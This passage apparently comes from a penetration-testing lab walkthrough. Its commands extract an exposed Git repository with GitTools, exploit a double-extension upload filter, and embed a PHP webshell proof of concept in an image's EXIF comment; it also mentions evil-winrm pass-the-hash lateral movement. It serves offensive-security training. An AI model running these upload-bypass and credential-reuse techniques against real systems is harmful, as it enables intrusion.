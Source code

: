 ```shell
#rename folder

git clone https://github.com/internetwache/GitTools
#clone GitTools

#in the Website.git directory
GitTools/Extractor/extractor.sh . Website
#extracts and creates readable format

cd Website

ls -la
#contains commit directories
#each includes commit-meta.txt with info

separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"
#one-liner for pretty printing

cd <latest-commit-folder>
#check latest commit

ls -la
#index.html

find . -name "*.php"
#./resources/index.php

cat resources/index.php

#we find a double-extension filter evasion vulnerability
#we can check the webpage now and attempt uploads

#try embedding webshell in image file

#get image file
mv ~/image.jpeg test-sv.jpeg.php

exiftool test-sv.jpeg.php
#check exif data

exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-sv.jpeg.php
#add comment for PoC

exiftool test-sv.jpeg.php
#includes comment now
```

* We can connect to the git-server machine using the ```evil-winrm``` pass-the-hash method from earlier; this time, we can share the folder containing the scripts required.

